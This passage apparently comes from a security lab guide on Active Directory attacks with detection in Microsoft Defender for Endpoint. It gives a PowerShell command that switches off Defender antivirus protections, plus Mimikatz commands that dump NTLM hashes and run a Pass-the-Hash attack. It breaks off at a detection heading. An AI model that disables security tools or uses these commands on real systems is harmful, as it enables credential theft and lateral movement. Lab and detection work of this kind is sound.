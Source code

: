4.	Set the SPN for the service account:
    
```powershell
Set-ADUser -Identity $serviceAccountName -ServicePrincipalNames @{Add=$spn}
```

5.	Verify the SPN:

```powershell
Get-ADUser -Identity $serviceAccountName -Property ServicePrincipalName | Select-Object -ExpandProperty ServicePrincipalName
```

### Disable MDE Antivirus Temporarily

1.	Type the following commands to disable MDE:

```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```

2.	Verify that the settings above are disabled with the command:

```powershell
Get-MpPreference
```

## Pass-the-Hash (PtH) Attack
### Steps to perform a PtH attack
The following steps will guide you through executing a PtH attack, which involves obtaining and using hashed credentials to authenticate within a network without needing plaintext passwords:

1.	Obtain NTLM Hashes
    - On a compromised machine, run Mimikatz to extract NTLM hashes.
    - Execute the following commands in Mimikatz.

    ```cmd
    privilege::debug
    sekurlsa::logonpasswords
    ```

    - Note the NTLM hash of a user account.

2.	Use NTLM Hash to Authenticate
    - Use the NTLM hash to authenticate to another machine in the network using Mimikatz.
    ```cmd
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm_hash>
    ```

3.	Verify Access
    - A new command prompt opens with the privileges of the target user. Try accessing network resources to verify the attack.

### Detection
We can hunt for PtH and Mimikatz commands in the DeviceEvents table:
